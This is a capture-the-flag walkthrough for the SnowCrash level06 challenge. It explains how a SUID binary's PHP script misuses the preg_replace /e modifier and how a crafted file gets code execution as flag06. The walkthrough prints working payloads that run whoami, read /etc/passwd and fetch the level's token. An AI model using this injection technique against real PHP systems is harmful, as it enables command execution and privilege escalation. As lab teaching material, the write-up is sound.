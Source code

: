 - The directory `/home/user/level06` contains a binary which when executed applies the `level06.php` script to a file name passed to the binary as an argument. The SUID bit of the binary is set as flag06.

```
level06@SnowCrash:~$ pwd
/home/user/level06
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

```

- In the `level06.php` the line `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);` reveals a depreciated modifier `/e` which executes the matched and replaced string as php code.

- The pattern matches the line starting with `[x` and extracts the string following `[x` and executes it as  php code.

- In php the syntax ```${`<command>`};``` can be used in order to execute system commands. Furthermore we can run multiple code executions by chaining commands as per below test. We find the result of the command are displayed on screen as errors in php code execution and as per SUID bit set as `flag06` the `whoami` command reflect the binary is run and commands are executed as `flag06`


```
level06@SnowCrash:~$ cat /tmp/test
[x  ${`whoami`}; ${`cat /etc/passwd`}]

level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: flag06
 in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<snip>
```

- Replacing the payload with `getflag` command to execute it as the file owner `flag06` and obtain the flag
```
level06@SnowCrash:~$ echo '[x  ${`getflag`}]' > /tmp/payload
level06@SnowCrash:~$ ./level06 /tmp/payload
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
 
```

- Authenticate as `level07` using the token 

```
level06@SnowCrash:~$ su level07
Password: 
level07@SnowCrash:~$ 

```
